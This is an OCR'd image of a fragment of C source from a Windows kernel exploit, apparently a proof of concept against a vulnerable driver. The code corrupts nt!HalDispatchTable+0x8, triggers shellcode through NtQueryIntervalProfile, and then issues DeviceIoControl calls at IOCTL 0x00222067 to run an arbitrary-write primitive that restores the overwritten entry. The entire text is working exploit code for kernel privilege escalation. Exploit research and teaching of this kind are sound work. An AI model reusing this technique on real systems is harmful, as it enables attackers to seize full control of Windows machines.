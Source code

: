 ```c
    printf("[+] Successfully corrupted [nt!HalDispatchTable+0x8]!\n");

    // Locating nt!NtQueryIntervalProfile
    NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(
        GetModuleHandle(
            TEXT("ntdll.dll")),
        "NtQueryIntervalProfile"
    );

    // Error handling
    if (!NtQueryIntervalProfile)
    {
        printf("[-] Error! Unable to find ntdll!NtQueryIntervalProfile! Error: %d\n", GetLastError());
        exit(1);
    }

    // Print update for found ntdll!NtQueryIntervalProfile
    printf("[+] Located ntdll!NtQueryIntervalProfile at: 0x%llx\n", NtQueryIntervalProfile);

    // Calling nt!NtQueryIntervalProfile
    ULONG exploit = 0;
    NtQueryIntervalProfile(
        0x1234,
        &exploit
    );

    // Print update
    printf("[+] Successfully executed the shellcode!\n");

    // Leverage arbitrary write for restoration purposes

    // Setting the Name member of the corrupted object to specify where we would like to write
    helperobjectArray[index].Name = &halTemp;

    // Specify where we would like to write (the address of the preserved value at [nt!HalDispatchTable+0x8])
    mainObject.Name = &halDispatch;

    // Set the Name member of the "corrupted" object managed by the global array to nt!HalDispatchTable+0x8
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &helperobjectArray[index],
        sizeof(helperobjectArray[index]),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );

    // Perform the arbitrary write
    DeviceIoControl(
        driverHandle,
        0x00222067,
        &mainObject,
        sizeof(mainObject),
        NULL,
        NULL,
        &bytesreturnedreadPrimtitve,
        NULL
    );
```